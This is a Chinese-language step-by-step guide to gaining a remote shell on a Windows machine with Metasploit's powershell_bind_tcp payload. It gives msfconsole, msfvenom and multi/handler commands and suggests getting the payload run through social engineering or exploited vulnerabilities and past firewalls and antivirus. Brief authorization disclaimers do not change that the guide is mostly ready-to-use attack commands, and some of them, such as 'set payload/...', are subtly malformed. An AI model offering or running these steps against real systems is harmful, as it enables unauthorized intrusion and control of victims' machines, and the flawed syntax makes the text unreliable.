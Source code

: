 使用Metasploit Framework（MSF）中的`windows/x64/powershell_bind_tcp` payload，需要以下步骤。这个payload将在目标系统上打开一个端口，等待攻击者连接。以下是详细步骤：

### 1. 准备环境

确保你有Metasploit Framework（MSF）和一个可用的攻击目标系统。攻击目标可以是一个虚拟机或真实机器。请确保你有合法授权进行此类操作。

### 2. 启动Metasploit

在终端中启动Metasploit：

```bash
msfconsole
```

### 3. 选择Payload

直接选择`windows/x64/powershell_bind_tcp`作为payload：

```bash
use payload/windows/x64/powershell_bind_tcp
```

### 4. 设置参数

配置必要的参数，如RHOST（目标主机）和LPORT（监听端口）：

```bash
set RHOST <目标IP>
set LPORT <监听端口>
```

例如：

```bash
set RHOST 192.168.1.10
set LPORT 4444
```

### 5. 生成Payload命令

生成包含`powershell_bind_tcp`的命令，并发送到目标系统。你可以使用`msfvenom`生成有效负载并在目标系统上执行。例如：

```bash
msfvenom -p windows/x64/powershell_bind_tcp LPORT=4444 -f raw
```

### 6. 执行Payload

在目标系统上执行生成的PowerShell命令。这可以通过多种方式进行，如社交工程、利用漏洞等。

### 7. 监听连接

配置Metasploit以等待连接：

```bash
use exploit/multi/handler
set payload windows/x64/powershell_bind_tcp
set LPORT 4444
exploit
```

### 示例完整流程

#### 在攻击者机器上：

```bash
msfconsole
set payload/windows/x64/powershell_bind_tcp
set RHOST 192.168.1.10
set LPORT 4444
```

生成Payload命令：

```bash
msfvenom -p windows/x64/powershell_bind_tcp LPORT=4444 -f raw
```

#### 在目标系统上：

执行生成的PowerShell命令。

#### 在攻击者机器上继续：

监听连接：

```bash
use exploit/multi/handler
set payload windows/x64/powershell_bind_tcp
set LPORT 4444
exploit
```

成功连接后，你将获得目标系统的Shell，可以执行后续操作。

### 注意事项

1. **权限**：确保你对目标系统具有适当的权限来执行PowerShell命令。
2. **防火墙和杀毒软件**：目标系统上的防火墙和杀毒软件可能会阻止这种连接。你可能需要绕过这些防护措施。
3. **合法授权**：请务必在合法授权的情况下进行此类测试和操作。

通过上述步骤，你可以使用Metasploit的`windows/x64/powershell_bind_tcp` payload连接到目标系统并进行控制操作。
